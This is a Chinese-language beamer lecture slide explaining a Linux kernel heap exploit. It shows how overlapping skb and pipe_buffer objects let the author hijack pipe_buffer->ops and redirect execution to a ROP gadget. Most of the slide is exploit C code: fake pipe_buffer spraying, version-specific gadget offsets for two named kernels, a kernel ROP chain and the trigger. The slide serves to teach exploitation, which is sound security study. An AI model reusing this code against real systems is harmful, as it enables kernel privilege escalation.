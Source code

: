 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}
\small 有了这些信息，我们现在可以找到 JOP/ROP 小工具。请注意，当从 unix 套接字读取时，我们实际上也释放了它的缓冲区：
\begin{figure}[H]
\centering
\includegraphics[width=0.7\textwidth]{pic/9}%
\end{figure}
\end{frame}



\subsection{控制程序执行流程}

\begin{frame}[fragile]
\begin{columns}
\small 此时skb与pipe\_buffer占据同一块内存空间，重新构造skb，劫持pipe\_buffer->ops至本内存空间，伪造pipe\_buffer->ops->release，为第一个ROPgadget地址，实现执行流程控制


\tiny\begin{lstlisting}[language=c]
    printf("[+] STAGE 4: Kernel code execution\n");
    printf("[*] Spraying fake pipe_buffer objects...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    buf = (struct pipe_buffer *) &secondary_buf;
    buf->ops = kheap_addr + 0x290;
    ops = (struct pipe_buf_operations *) &secondary_buf[0x290];
    #ifdef KERNEL_COS_5_4_89
    // RAX points to &buf->ops.
    // RCX points to &buf.
    ops->release = kbase_addr + PUSH_RAX_JMP_QWORD_PTR_RCX;
    #elif KERNEL_UBUNTU_5_8_0_48
    // RSI points to &buf.
    ops->release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;
    #endif
    build_krop(secondary_buf, kbase_addr, kheap_addr + 0x2B0);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
    // Trigger pipe_release().
    printf("[*] Releasing pipe_buffer objects...\n");
    for (int i = 0; i < NUM_PIPEFDS; i++) {
        if (close(pipefd[i][0]) < 0) {
            perror("[-] close");
            goto err_rmid;
        }
        if (close(pipefd[i][1]) < 0) {
            perror("[-] close");
            goto err_rmid;
        }
    }
\end{lstlisting}


\end{columns}


\end{frame}
\end{document}
